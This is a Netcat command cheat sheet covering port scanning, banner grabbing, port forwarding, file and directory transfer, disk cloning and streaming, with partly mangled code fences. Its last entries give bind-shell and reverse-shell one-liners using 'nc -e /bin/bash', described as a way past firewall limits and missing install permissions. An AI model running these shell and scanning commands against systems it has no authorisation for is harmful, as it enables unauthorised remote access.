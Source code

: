 ```yaml
---
title: Netcat
date: '2020-11-25T18:28:43.000Z'
icon: icon-netcat
background: bg-blue-600
tags:
  - ncat
  - nc
  - utility
  - network
  - traffic
categories:
  - Linux Command
intro: This cheat sheet provides various for using Netcat on both Linux and Unix.
---
```


# nc

## Getting started {.cols-5}

### Usage {.col-span-2}

Connect to a host located anywhere

\`\`\`shell script $ nc \[options\] \[host\] \[port\]

```text
Listen for incoming connections
```shell script 
$ nc -lp port [host] [port]
```

### Option examples {.col-span-3 .row-span-2}

| Option | Description | Example |
| :--- | :--- | :--- |
| `-h` | nc -h | Help |
| `-z` | nc -z 192.168.1.9 1-100 | Port scan for a host or IP address |
| `-v` | nc -zv 192.168.1.9 1-100 | Provide verbose output |
| `-n` | nc -zn 192.168.1.9 1-100 | Fast scan by disabling DNS resolution |
| `-l` | nc -lp 8000 | TCP Listen mode _\(for inbound connects\)_ |
| `-w` | nc -w 180 192.168.1.9 8000 | Define timeout value |
| `-k` | nc -kl 8000 | Continue listening after disconnection |
| `-u` | nc -u 192.168.1.9 8000 | Use UDP instead of TCP |
| `-q` | nc -q 1 192.168.1.9 8000 | Client stay up after EOF |
| `-4` | nc -4 -l 8000 | IPv4 only |
| `-6` | nc -6 -l 8000 | IPv6 only |

### Chat client-server {.col-span-2}

Server \(192.168.1.9\) \`\`\`shell script $ nc -lv 8000

```text
Client
```shell script
$ nc 192.168.1.9 8000
```

## Examples {.cols-3}

### Banner grabbing

\`\`\`shell script $ nc website.com 80 GET index.html HTTP/1.1 HEAD / HTTP/1.1

```text
or
```shell script
echo "" | nc -zv -wl 192.168.1.1 801-805
```

### Port scanning

Scan ports between 21 to 25 \`\`\`shell script $ nc -zvn 192.168.1.1 21-25

```text
Scan ports 22, 3306 and 8080
```shell script
$ nc -zvn 192.168.1.1 22 3306 8080
```

### Proxy and port forwarding

\`\`\`shell script $ nc -lp 8001 -c "nc 127.0.0.1 8000"

```text
or
```shell script
$ nc -l 8001 | nc 127.0.0.1 8000
```

Create a tunnel from one local port to another

### Download file

Server \(192.168.1.9\) \`\`\`shell script $ nc -lv 8000 &lt; file.txt

```text
Client
```shell script
$ nc -nv 192.168.1.9 8000 > file.txt
```

Suppose you want to transfer a file “file.txt” from server A to client B.

### Upload file

Server \(192.168.1.9\) \`\`\`shell script $ nc -lv 8000 &gt; file.txt

```text
Client
```shell script
$ nc 192.168.1.9 8000 < file.txt
```

Suppose you want to transfer a file “file.txt” from client B to server A:

### Directory transfer

Server \(192.168.1.9\) \`\`\`shell script $ tar -cvf – dir\_name \| nc -l 8000

```text
Client
```shell script
$ nc -n 192.168.1.9 8000 | tar -xvf -
```

Suppose you want to transfer a directory over the network from A to B.

### Encrypt transfer {.col-span-2}

Server \(192.168.1.9\) \`\`\`shell script $ nc -l 8000 \| openssl enc -d -des3 -pass pass:password &gt; file.txt

```text
Client
```shell script
$ openssl enc -des3 -pass pass:password | nc 192.168.1.9 8000
```

Encrypt data before transfering over the network

### Clones

Server \(192.168.1.9\) \`\`\`shell script $ dd if=/dev/sda \| nc -l 8000

```text
Client
```shell script
$ nc -n 192.168.1.9 8000 | dd of=/dev/sda
```

Cloning a linux PC is very simple. Suppose your system disk is /dev/sda

### Video streaming

Server \(192.168.1.9\) \`\`\`shell script $ cat video.avi \| nc -l 8000

```text
Client
```shell script {.wrap}
$ nc 192.168.1.9 8000 | mplayer -vo x11 -cache 3000 -
```

Streaming video with netcat

### Remote shell

Server \(192.168.1.9\) \`\`\`shell script $ nc -lv 8000 -e /bin/bash

```text
Client
```shell script
$ nc 192.168.1.9 8000
```

We have used remote Shell using the telnet and ssh but what if they are not installed and we do not have the permission to install them, then we can create remote shell using netcat also.

### Reverse shell

Server \(192.168.1.9\) \`\`\`shell script $ nc -lv 8000

```text
Client
```shell script
$ nc 192.168.1.9 8000 -v -e /bin/bash
```

Reverse shells are often used to bypass the firewall restrictions like blocked inbound connections

